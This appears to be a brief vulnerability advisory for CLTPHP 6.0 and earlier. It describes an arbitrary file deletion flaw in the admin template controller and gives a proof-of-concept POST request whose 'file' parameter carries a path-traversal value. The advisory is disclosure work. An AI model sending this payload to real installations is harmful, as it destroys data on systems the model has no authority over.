

# CLTPHP <= 6.0 Improper Input Validation 2
## Description
    The system client did not handle the parameters correctly, resulting in arbitrary file deletion.
## Vendor Homepage
    https://gitee.com/chichu/cltopen/
    https://www.cltphp.com/

## Author
    HuBen-Lab
## Proof of Concept
File:`application/admin/controller/Template.php `

Exploiting this vulnerability requires logging into the system.

payload:

```
http://172.16.5.135:81/index.php/admin/template/delete

post：file=../../../../../../../1.txt
```

This vulnerability can only be used under windows.

